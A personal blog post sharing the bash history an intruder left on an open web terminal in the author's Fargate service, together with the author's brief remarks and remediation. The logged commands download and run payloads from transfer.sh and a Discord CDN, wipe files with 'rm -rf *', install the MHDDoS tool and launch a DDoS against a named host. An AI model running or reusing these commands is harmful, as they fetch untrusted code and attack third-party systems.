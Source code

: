 ```yaml
---
layout: post
title: "Hack Attempt"
date: 2022-01-12 12:00:00 -0000
---
```


## Bash history of a hack attempt in one of my Fargate services

Yesterday I checked the bash history for an open [web terminal](http://github.com/yudai/gotty)
I left behind in one of the Fargate services I set up, and noticed a hack attempt.
Below you'll find the set of commands the attacker used. Typos and the constant
use of `clear` makes me think this isn't a pro, but it's still interesting to
see what he/she attempted.
 
```
   31  ls
   32  rm -rf *
   33  ls
   34  sudo
   35  ls
   36  sudo apt update
   37  clear
   38  ls
   39  screen -ls
   40  clear
   41  cd
   42  tmux
   43  clear
   44  ls
   45  cd /
   46  ls
   47  cd
   48  clear
   49  ulimit -n 999999
   50  clear
   51  wget
   52  curl
   53  docker
   54  udocker
   55  pip3
   56  curl https://cdn.discordapp.com/attachments/853535040250970113/878590395611775016/yt.zip --output yt.zip
   57  screen -ls
   58  ls
   59  clear
   60  unzip yt.zip
   61  pk
   62  apk update
   63  apt
   64  apt update
   65  clear
   66  tar
   67  rm -rf *
   68  clear
   69  ls
   70  clear
   71  curl https://transfer.sh/rvpSpC/root.sh --output root.sh
   72  ls
   73  curl https://transfer.sh/A2mYNo/root.tar.xz --output root.tar.xz
   74  mkdir dist
   75  ls
   76  cd dist
   77  curl https://transfer.sh/1e30zd/proot --output proot
   78  curl https://transfer.sh/9btpPw/proot.md5sum --output proot.md5sum
   79  curl https://transfer.sh/6wqMgI/proot.sha256sum --output proot.sha256sum
   80  clear
   81  cd
   82  ls
   83  tar -xvf root.tar.xz
   84  clear
   85  ./dist/proot -S . /bin/bash
   86  chmod +x ./dist/proot
   87  ./dist
   88  ./dist/proot -S . /bin/bash
   89  ls
   90  rm -rf root.sh
   91  m -rf root.tar.xz
   92  rm -rf root.tar.xz
   93  ls
   94  cd
   95  ls
   96  clear
   97  cd /
   98  ls
   99  cd
  100  ls
  101  cd dist
  102  ls
  103  rm -rf *
  104  cd /
  105  rm -rf dist
  106  clear
  107  ls
  108  cd
  109  pip3 install udocker
  110  udocker install
  111  pip3 remove udocker
  112  pip3 uninstall udocker
  113  clear
  114  curl https://github.com/indigo-dc/udocker/releases/download/v1.3.1/udocker-1.3.1.tar.gz --output udocker-1.3.1.tar.gz
  115  ls
  116  cd
  117  ls
  118  tar zxvf udocker-1.3.1.tar.gz
  119  ls
  120  clear
  121  curl https://transfer.sh/ce6sc1/udocker.tar.gz --output udocker.tar.gz
  122  tar -xvf udocker.tar.gz
  123  ls
  124  rm -rf udocker*
  125  ls
  126  clear
  127  ls
  128  git
  129  git clone https://github.com/MHProDev/MHDDoS
  130  cd MHDDoS
  131  ls
  132  pip3 install -r requirements.txt
  133  cdlls
  134  cd
  135  ls
  136  cd MHDDoS
  137  ls
  138  cd
  139  ls
  140  cd MHDDoS
  141  python3 start.py get https://host.applelife.ru/ 1 1000 http.txt 1000 9999999999999999999999999999
  142  history
```

I don't recommend visiting these URLs, or trying these commands on your system.
However, <https://github.com/MHProDev/MHDDoS> is safe. It's a DDOS Attack script
implemented in Python. The attacker was able to install it, and used it to DDOS
`https://host.applelife.ru/`.

After noticing it, I removed the configuration that enables the web terminal and
restarted the service to get back to a healthy/safe state.

FWIW, I know that leaving an open web terminal isn't safe. This is not the first
time I got an intruder there, but the previous one just poked around and didn't
attempt anything nefarious. Anyway, YOLO - these web terminals are pretty
convenient. And since there's very little an attacker can do in the running
container, I feel the risk is manageable.
